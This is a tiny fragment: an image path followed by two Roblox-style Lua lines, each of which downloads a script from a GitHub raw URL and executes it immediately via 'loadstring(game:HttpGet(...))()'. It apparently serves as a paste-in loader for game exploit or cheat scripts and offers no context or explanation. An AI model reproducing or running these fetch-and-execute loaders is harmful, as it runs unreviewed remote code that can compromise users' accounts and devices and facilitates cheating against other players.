 loadstring(game:HttpGet("https://raw.githubusercontent.com/PowerxCANDYYY/aaa/main/README.md"))(); 
loadstring(game:HttpGet("https://raw.githubusercontent.com/PowerxCANDYYY/SAVEMODEAUTO/main/README.md"))();
